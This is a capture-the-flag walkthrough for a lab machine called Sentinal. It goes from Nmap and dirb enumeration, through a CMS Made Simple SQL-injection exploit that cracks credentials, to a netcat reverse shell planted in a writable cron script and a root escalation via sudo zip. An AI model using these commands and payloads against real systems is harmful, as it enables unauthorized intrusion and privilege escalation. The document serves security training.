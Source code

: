 # Exploitation Guide for Sentinal

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.150
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page. 
Checking /robots.txt and source code don't giveus anything. So let's start directory bruteforcing using dirb.

```
root@sentinal-VirtualBox:~# dirb http://192.168.83.150 -X .txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Sep 19 05:49:57 2020
URL_BASE: http://192.168.83.150/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://192.168.83.150/ ----
+ http://192.168.83.150/note.txt (CODE:200|SIZE:151)                                                                                                                                                                                      
-----------------
END_TIME: Sat Sep 19 05:49:59 2020
DOWNLOADED: 4612 - FOUND: 1
```

We find a hidden note.txt that says
```
Dear Developers,

Our website is moved to sentinal.com
Do login into the panel, configure the website and start building project.

Thank you
sys admin
```


It is running an virtual host of sentinal.com
So we have to add sentinal.com in /etc/hosts
```
root@kunal:~# nano /etc/hosts
192.168.83.150  sentinal.com
```

## Exploitation

On visiting sentinal.com in our browser, we find it is running `CMS Made Simple v2.2.9`.
Searching for an exploit, we find it is vulnerable to SQL injection.
```
Cmsms < 2.2.10 SQL Injection
https://www.exploit-db.com/exploits/46635
```
Before running the script make sure following packages are installed
```
	apt install python-pip
	pip install requests
	pip install setuptools
	pip install termcolor
```
Execute the script with a wordlist to bruteforce
```
python 46635.py -u http://sentinal.com -w /opt/rockyou.txt --crack 

[+] Salt for password found: 551c92a536111490
[+] Username found: juniordev
[+] Email found: juniordev@sentinal.com
[+] Password found: a25bb9e6782e7329c236d2538dd4f5ac
[+] Password cracked: passion
```
We get a username `juniordev` and a password `passion`.
Now we can use this creds to SSH login to the system
```
ssh juniordev@192.168.83.150
password: passion

juniordev@sentinal: whoami
juniordev
```
## User Escalation

Looking at the /etc/crontab we find there is a cronjob run by user sentinal every minute
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * sentinal /home/sentinal/Pictures/sentinal.sh
```


Going to /home/sentinal/Pictures and checking file permissions on senitnal.sh we find it is writable by user juniordev
```
juniordev@sentinal:/home/sentinal/Pictures$ ls -la
total 12
drwxr-xr-x  2 sentinal sentinal 4096 Sep 19 05:42 .
drwxr-xr-x 17 sentinal sentinal 4096 Sep 19 08:09 ..
-rwxrwxrw-  1 sentinal sentinal   76 Sep 19 08:12 sentinal.sh
```
Adding a reverse shell in sentinal.sh and getting a shell as user sentinal
```	
juniordev@sentinal:/home/sentinal/Pictures$ nano sentinal.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.2 920 >/tmp/f
```


## Root Escalation

User sentinal can run /bin/zip as sudo
```
sentinal@sentinal:~$ sudo -l
sudo -l
Matching Defaults entries for sentinal on sentinal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sentinal may run the following commands on sentinal:
    (ALL) NOPASSWD: /bin/zip
```
zip binary has an unzip-command argument that can be used to run arbitary commands on the system 
```
sudo /bin/zip /tmp/kunal.zip /tmp/ -T --unzip-command="sh -c /bin/bash"
```
Another way to exploit zip binary is using gtfobins
```
sudo /usr/bin/zip mktemp -T -TT 'bash #'
```
And we are root
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
	
